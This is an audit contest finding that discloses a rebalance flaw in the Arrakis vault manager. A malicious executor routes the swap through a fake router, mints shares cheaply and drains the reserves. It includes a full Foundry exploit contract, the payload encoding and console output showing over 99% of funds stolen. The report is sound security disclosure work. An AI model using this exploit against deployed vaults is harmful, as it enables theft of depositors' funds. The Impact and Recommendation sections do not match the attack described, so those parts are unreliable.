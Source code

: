 Tricky Alabaster Panda

high

# Through rebalance(), an executor can drain 100% of vault reserves by minting cheap shares

## Summary

The contest README states the following:
> Executor of ArrakisStandardManager is RESTRICTED during rebalance action on vaults.

This is a complex attack performed by a malicious executor to drain a vault during rebalance.

It requires at least one of the tokens to be a rebase token, since it requires the pool reserves to be increased without calling `HOT.depositLiquidity()` 

## Vulnerability Detail

On calling [`rebalance()`](https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/ArrakisStandardManager.sol#L322) , it makes a call to the module, with provided `payloads_` from the `executor`:

```solidity
(bool success,) = address(module).call(payloads_[i]);
```

For this attack, the payload’s function signature will be of the [`swap()`](https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/abstracts/ValantisHOTModule.sol#L326) function in the `ValantisHOTModule`

The `swap()` function essentially does these 3 things:

1. Withdraw liquidity from the pool (via ALM)
2. Do an arbitrary call to an arbitrary address (`router_.call(payload_)`)
3. Deposit the resulting balance back into the pool (via ALM)

The intended functionality is that in step 2, a call is made to a router which swaps the tokens to rebalance the funds.
However, since the `router_` param is not checked, a malicious executor can pass in any address they want.

### Root Cause
After step 1, the pool’s reserves for both tokens is `0` . Then in step 2, the executor can mint vault shares at a very cheap price, since the price depends on the pool’s reserves.

### Attack Details
However, when pool reserves are equal to `0` , depositing liquidity will fail due to the error: `SovereignPool__depositLiquidity_zeroTotalDepositAmount` . To solve this, the executor must be able to somehow slightly increase the values returned by `pool.getReserves()`

For non-rebase tokens, the only way would be to increase `reserve0`  or `reserve1` in the pool, but this would require depositing liquidity, which would revert since the reserves are `0`.

However for rebase tokens, the reserves are calculated via:

```solidity
reserve = _token0.balanceOf(address(this));
```

This can be inflated by the executor since they simply have to send the token to the pool.

Now after step2, the `swap()` function also has a check to ensure that `expectedMinReturn_`  is met. 

To ensure that this doesn’t revert, the executor simply passes `expectedMinReturn=1` (0 can’t be used due to `_checkMinReturn()`) and `amountIn=1` , and sends 1 wei of the output token to the module, to meet the minimum expected return.

Note that the additional TVL slippage checks in `rebalance()` are not effective at preventing this attack, since the attacker redeems their vault shares after the rebalance is over.

### Summary of Attack (see PoC for implementation):

1. Malicious executor calls `ArrakisStandardManager.rebalance()` 
2. `ValantisModule.swap()` is called, with `expectedMinReturn=1`  and `amountIn=1` and `zeroToOne=false`
3. This executes `router_.call(payload)` , which calls `mintFreeShares()`  on the attacker’s fake router contract
    1. This function call first sends 1 wei of token0 and token1 to the `SovereignPool`, so that the reserves are non-zero
    2. Then, it mints `100e18` vault shares, for the price of 100 wei (since the liquidity was withdrawn in step1 of the `swap()` function)]
    3. It sends 1 wei of `token0` to the module, so that the `expectedMinReturn_` check does not revert
4. The remainder of `ValantisModule.swap()` occurs, re-depositing funds into the pool. 
5. Attacker calls `Vault.burn(100e18, attacker)`  to burn the 100e18 shares, stealing over 99% of the vault’s funds. 

Ultimately, the attacker is able to steal 99% of the pool’s reserves, while spending 100 wei of each token, which is a negligible cost. 

## Impact

100% of the fees which are meant for the Arrakis manager are re-deposited into the pool by a malicious `executor` and never claimable by the manager. 

## Proof of Concept

Here is a coded proof of concept demonstrating the vulnerability in action.

To run the PoC:

1. Add the following test contract to a new file within the `arrakis-modular/test/integration` directory.
2. Make the following minor change in `ValantisIntegrationPublicTest.sol` , to configure the pool with rebase tokens
        
```diff
SovereignPoolConstructorArgs memory poolArgs =
        _generateDefaultConstructorArgs();
+poolArgs.isToken0Rebase = true;
+poolArgs.isToken1Rebase = true;
```
        
3. Then run `forge test --mt test_maliciousExecutor_mintsFreeShares -vv` in the terminal.

<details><summary>Coded PoC</summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

// Foundry Imports
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";
import {Test} from "forge-std/Test.sol";

// Arrakis Imports
import {IOracleWrapper} from "../../src/interfaces/IOracleWrapper.sol";
import {ArrakisMetaVaultPublic} from
    "../../src/ArrakisMetaVaultPublic.sol";
import {ArrakisStandardManager} from
    "../../src/ArrakisStandardManager.sol";
import {IArrakisMetaVaultPublic} from
    "../../src/interfaces/IArrakisMetaVaultPublic.sol";
import {IArrakisMetaVault} from
    "../../src/interfaces/IArrakisMetaVault.sol";
import {IArrakisStandardManager} from
    "../../src/interfaces/IArrakisStandardManager.sol";
import {IValantisHOTModule} from
    "../../src/interfaces/IValantisHOTModule.sol";

// Valantis Imports
import {HOT} from "@valantis-hot/contracts/HOT.sol";
import {IValantisHOTModule} from
    "../../src/interfaces/IValantisHOTModule.sol";

// General Imports
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";


// Base test
import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";


contract FreeShares is ValantisIntegrationPublicTest {

    address attacker;
    address rec;
        
    function test_maliciousExecutor_mintsFreeShares() public {
        attacker = makeAddr("attacker");
        rec = makeAddr("rec");

        // Malicious executor's balance before rebalancing
        console.log("[BEFORE]:\n executor's balance- token0: %e, token1: %e", token0.balanceOf(executor), token1.balanceOf(executor));
        
        vm.startPrank(executor);
        
        deal(address(token0), rec, init0); // 2000e6 (0: USDC)
        deal(address(token1), rec, init1); // 1e18   (1: WETH)

        address m = address(IArrakisMetaVault(vault).module());

        //@e user mints from meta vault
        vm.startPrank(rec);
        token0.approve(m, init0);
        token1.approve(m, init1);

        IArrakisMetaVaultPublic(vault).mint(1e18, rec);
        vm.stopPrank();

        // Setup ScamRouter
        ScamRouter scamRouter = new ScamRouter(token0, token1, address(vault), executor, address(pool));
        deal(address(token0), address(scamRouter), 150 wei);
        deal(address(token1), address(scamRouter), 150 wei);


        (uint256 reserves0Before, uint256 reserves1Before) = pool.getReserves();
        console.log("Pool TVL Before: %e USDC", _getPoolTVL(reserves0Before, reserves1Before));

        bool zeroForOne = false;
        uint256 amountIn = 1;
        uint256 expectedMinReturn = 1;


        // This is the payload sent to the `router_` within `HOTModule.swap()`- called from `StandardManager.rebalance()`
        bytes memory router_payload = abi.encodeWithSelector(
            ScamRouter.mintFreeShares.selector
        );

        bytes memory payload = abi.encodeWithSelector(
            IValantisHOTModule.swap.selector,
            zeroForOne,
            expectedMinReturn,
            amountIn,
            address(scamRouter),
            0,
            0,
            router_payload // to send to the fake router
        );

        bytes[] memory datas = new bytes[](1);
        datas[0] = payload;

        vm.prank(executor);
        IArrakisStandardManager(manager).rebalance(vault, datas);   

        vm.prank(executor);
        ArrakisMetaVaultPublic(vault).burn(100e18, executor);

        console.log("[AFTER]:\n executor's balance- token0: %e, token1: %e", token0.balanceOf(executor), token1.balanceOf(executor));
        // Pool reserves
        (uint256 reserves0After, uint256 reserves1After) = pool.getReserves();

        console.log("Pool TVL After: %e USDC\n", _getPoolTVL(reserves0After, reserves1After));

        console.log("Token0 (USDC) Reserves Before->After: %e->%e", reserves0Before, reserves0After);
        console.log("Token1 (ETH) Reserves Before->After: %e->%e", reserves1Before, reserves1After);

        uint256 executorTotalValue = _getPoolTVL(token0.balanceOf(executor), token1.balanceOf(executor));
    }

    function _getPoolTVL(uint256 a, uint256 b) internal view returns (uint256){
        return a + b * IOracleWrapper(oracle).getPrice1() / 10**token1.decimals();
    }
}

contract ScamRouter {
    // This will deposit to get free shares
    
    ERC20 public token0;
    ERC20 public token1;

    ArrakisMetaVaultPublic vault;
    address pool;

    address owner;

    constructor(ERC20 t0, ERC20 t1, address _vault, address _owner, address _pool) {
        token0 = t0;
        token1 = t1;
        vault = ArrakisMetaVaultPublic(_vault);
        owner = _owner;
        pool = _pool;
    }

    function mintFreeShares() external {
        address module = address(vault.module());

        token0.transfer(pool, 1 wei);
        token1.transfer(pool, 1 wei);

        token0.approve(module, 100 wei);
        token1.approve(module, 100 wei);

        vault.mint(100e18, owner);

        token0.transfer(msg.sender, 1 wei); // prevent expectedMinReturn from failing (since we didnt swap anything)
    }
}
```

</details>

### Console Output:

```txt
[PASS] test_maliciousExecutor_mintsFreeShares() (gas: 2173357)
Logs:
  [BEFORE]:
 executor's balance- token0: 0e0, token1: 0e0
  Pool TVL Before: 4e9 USDC
  [AFTER]:
 executor's balance- token0: 1.98019812e9, token1: 9.90099009900990198e17
  Pool TVL After: 3.9603962e7 USDC

  Token0 (USDC) Reserves Before->After: 2e9->1.9801982e7
  Token1 (ETH) Reserves Before->After: 1e18->9.900990099009903e15

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 400.79ms

Ran 1 test suite in 400.79ms: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As you can see, the pool TVL dropped from 4000 USDC to ~40 USDC. Over 99% of the pool’s reserves were stolen in a single transaction by the malicious executor.

## Code Snippet

**The arbitrary call to the arbitrary `router_`**

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/abstracts/ValantisHOTModule.sol#L375-L378

**expectedMinReturn_ check that is bypassed by sending 1 wei**

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/abstracts/ValantisHOTModule.sol#L384-L397

## Tool used

Manual Review

## Recommendation

Do not allow `HOT.depositLiquidity()` to be called during a rebalance.